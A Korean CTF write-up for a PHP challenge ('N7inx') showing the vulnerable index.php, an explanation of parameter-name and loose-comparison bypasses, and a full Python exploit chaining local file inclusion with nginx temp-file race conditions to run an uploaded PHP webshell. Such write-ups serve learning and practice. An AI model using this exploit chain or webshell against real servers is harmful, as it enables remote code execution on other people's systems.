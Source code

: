 # N7inx

# Usage
- 공란

# Concept
- php7trick
- LFI

# Writeup
### index.php
```php
<?php
function No_wrapper($file) {
    $forbidden = array("/filter/i", "#://#", "/utf/i", "/resource/i", "/convert/i","/iconv/i","php/i");
    if (!is_string($file) || !is_ascii($file)) {
        return false;
    }
    foreach ($forbidden as $pattern) {
        if (preg_match($pattern, $file) === 1) {
            return false;
        }
    }
    return true;
}

function is_ascii($str) {
    return 0 === preg_match('/[^\x20-\x7E]/', $str);
}

if (isset($_GET["what_is php"]) && $_GET["7_version"]) {
    $file = $_GET["what_is php"];
    $version = $_GET["7_version"];
    if (strlen($version)<3 && strlen($version)>1){
        if($version > "74" && $version < 74){
            if (No_wrapper($file) === true) {
                include_once($file);
            } else {
                die("NO HACK!!");
            }
        } 
        else die("wrong!!");

    } else die("wrong!!");
}
else {
highlight_file(__FILE__);
die("I don't know....");
}
?>
```
Dockerfile을 보면 RCE를 통해 flag를 실행시켜야합니다. 

index.php를 살펴보면 먼저 get인자로 what_is php라는 변수와 7_version라는 변수를 받습니다. 먼저 php변수를 보시면 what_is php라는 변수명에 공백이 있습니다. 
php에서는 변수명에 공백이 있으면 공백을 _로 치환합니다. 그러나 php7에서는 앞에 [가 있으면 공백을 _로 치환하지 않습니다.

그리고 7_version이란 변수는 php7에 느슨한 비교 트릭을 이용했습니다.
what_is php가 일단 get으로 받아야하고 7_version가 조건식에 일치해야 LFI가 터집니다.
함수부분에서 php wrapper에 페이로드 몇 부분을 필터링을 걸어놓았고 
php session upload도 불가능하게 설정해놓았습니다.  
Nginx는 client body buffering(클라이언트가 보내는 데이터를 일시적으로 저장하는 기능)를 제공합니다. 
클라이언트 본문의 크기(POST로 국한되지 않음)가 임계값보다 크면 임시 파일을 작성하고 
PHP webshell 임의 쓰기 그러나 바로 삭제되지만 Race Condition을 통해 파일에 접근해서 
LFI를 통한 RCE가 가능합니다.



#### solve.py
```py
import  threading, requests


URL = f'http://localhost:9000/'

# find nginx worker processes 
r  = requests.get(URL, params={
    '7_version':"7A",
    'what[is php': '/proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
    '7_version':"7A",
    'what[is php': '/proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
    r  = requests.get(URL, params={
        '7_version':"7A",
        'what[is php': f'/proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx worker found: {pid}')

        nginx_workers.append(pid)
        if len(nginx_workers) >= cpus:
            break

done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
    while not done:
        requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()



def bruter(pid):
    global done

    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            f = f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
            r  = requests.get(URL, params={
                '7_version':"7A",
                'what[is php': f,
                'c': f'/flag'
            })
            if r.text:
                print(f'[!] {f}: {r.text}')
                done = True
                exit()

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```

